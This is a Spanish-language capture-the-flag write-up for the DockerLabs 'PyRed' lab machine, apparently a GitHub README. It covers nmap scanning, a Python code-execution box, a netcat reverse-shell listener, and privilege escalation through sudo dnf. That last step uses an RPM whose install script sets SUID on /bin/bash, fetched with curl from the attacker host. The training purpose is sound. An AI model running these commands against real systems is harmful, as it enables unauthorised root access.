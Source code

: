 # [PyRed](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh pyred.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>

`-c 1` ⮞ solo lo repite una vez
<br>

Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que estén abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los resultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **5000**.
<br>

![alt text](image-1.png)

<br>
<br>

## Página Web (Puerto 8080)

Al ver que está abierto el puerto 5000 nos dirigimos al Navegador Web e introducimos la dirección IP como URL de la siguiente forma : `172.17.0.2:5000` ya que es el puerto 5000 el que aloja este servidor Web. Podemos ver u cuadro de texto que nos permite ejecutar código de python:

<br>

![alt text](image-4.png)

<br>

Sabiendo esto probamos a ejecutar el siguiente código:
<br>

![alt text](image-5.png)
<br>

Este código de python nos permite ejecutar comandos gracias a '`os.system`, por lo que una vez que sabemos esto pasaremos a mandarnos una revshell. En primer lugar nos ponemos en escucha por el puerto 443 con `nc -nlvp 443`:
<br>

![alt text](image-6.png)
<br>

En segundo lugar, debemos ejecutar un código en la web el cual nos mande una revshell, que sería el siguiente:
<br>

![alt text](image-7.png)
<br>

 > Una página muy útil para las revshell sería [esta](https://www.revshells.com/).

<br>

Y si nos dirigimos a nuestra terminal por donde estamos en escucha habremos recibido una shell:
<br>

![alt text](image-8.png)

<br>
<br>

## Escalada de Privilegios

He intentado hacer el Tratamiento de la TTY pero la bash se me petaba ya que no estaba instalado el comando script, por lo que tendremos que apañarnos sin el Tratamiento.
<br>

Vemos que hemos ingresado a la máquina como el usuario **primpi**
<br>
![alt text](image-9.png)
<br>

Si ejecutamos `sudo -l` podemos ver que podemos ejecutar `/usr/bin/dnf` sin proporcionar contraseña y poder escalar a **root**.<br>

`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

![alt text](image-10.png)
<br>

Por lo que deberíamos hacer ahora es dirigirnos a la página [GTFOBins](https://gtfobins.github.io/) (está página nos indica como elevar privilegios dependiendo del binario que podamos ejecutar), después nos vamos a la parte de sudo en python3, y nos encontramos con el siguiente comando:
<br>

![alt text](image-12.png)

<br>

Por lo que en primer lugar debemos crear un paquete rmp personalizado en nuestra máquina de atacante, para ellos debemos seguir los siguientes pasos:
<br>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 1-. `TF=$(mktemp -d)`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 2-. `echo 'chmod +s /bin/bash' > $TF/x.sh`<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 3-. `fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF`
<br>

 > Si no tenemos instalado fpm, debemos instalarlo con `gem install fpm`
<br>

Una vez que tenemos el paquete creado:
<br>

![alt text](image-13.png)
<br>

Nos lo compartiremos con la máquina víctima a través de un servido de python, de la siguiente manera `python3 -m http.server 80`, y en la máquina víctima hacemos un `curl 172.17.0.1/x-1.0-1.noarch.rpm -o x-1.0-1.noarch.rpm` para obtener el paquete
<br>

![alt text](image-14.png)
<br>

 > Si te da un error como este, recuerda que debes estar en un directorio donde tengas capacidad de escritura ![alt text](image-15.png)

<br>

Por lo que ejecutaríamos el siguiente comando `sudo -u root dnf install -y x-1.0-1.noarch.rpm`, y comprobamos que tenemos el permiso SUID en la `/bin/bash`
<br>

![alt text](image-16.png)

<br>

Por lo que ahora haremos `/bin/bash -p`, y listo ya seremos `root`:
<br>

![alt text](image-17.png)